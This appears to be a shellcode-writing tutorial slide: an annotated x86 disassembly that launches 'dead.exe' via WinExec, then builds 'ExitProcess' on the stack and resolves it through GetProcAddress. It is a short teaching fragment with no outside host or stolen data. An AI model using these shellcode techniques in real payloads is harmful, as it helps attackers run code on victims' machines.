

# WinExec and ExitProcess
000000E3  6A05              push byte +0x5          ; SW_SHOW
000000E5  8D4C2418          lea ecx,[esp+0x18]      ; ECX = "dead.exe"
000000E9  51                push ecx
000000EA  FFD0              call eax                ; Call WinExec(exe, 5)

000000EC  83C40C            add esp,byte +0xc                 ; Clean stack
000000EF  5A                pop edx                           ; GetProcAddress
000000F0  5B                pop ebx                           ; kernel32 base
000000F1  6865737361        push dword 0x61737365             ; essa
000000F6  836C240361        sub dword [esp+0x3],byte +0x61
000000FB  6850726F63        push dword 0x636f7250             ; Proc
00000100  6845786974        push dword 0x74697845             ; Exit
00000105  54                push esp
00000106  53                push ebx
00000107  FFD2              call edx                          ; GetProc(Exec)
00000109  FFD0              call eax                          ; ExitProcess